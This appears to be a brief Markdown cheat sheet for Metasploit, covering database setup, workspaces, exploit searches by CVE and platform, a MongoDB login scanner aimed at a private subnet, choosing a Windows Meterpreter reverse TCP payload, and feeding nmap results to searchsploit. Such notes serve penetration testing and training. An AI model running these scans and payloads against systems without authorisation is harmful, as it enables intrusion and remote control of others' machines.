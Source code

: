 # MetaSploit

## Initialize
- Database settings: ```systemctl start postgresql``` & ```msfdb init```
- Run: ```msfconsole```  

## Workspace
- Create: ```workspace -a nasa``` 
- Delete: ```workspace -d nsa```
- Show: ```workspace```  
- Go to a workspace: ``` workspace nasa```

## Search
```
search type:exploit cve:2019
search type:auxiliary cve:2019
search platform:windows description:chrome
search platform:android description:2019
search platform:exploit description:samsung
```

## Auxiliary
```
use  auxiliary/scanner/mongodb/mongodb_login
set rhosts 192.168.1.0/24
run
```


## Exploit
- Change default payload
  - ```show payloads``` & ```set payload windows/meterpreter/reverse_tcp```

## Meterprete


Input from nmap
- ```nmap -sV -oX output.xml 192.168.3.5```
- ```searchsploit --nmap output.xml```
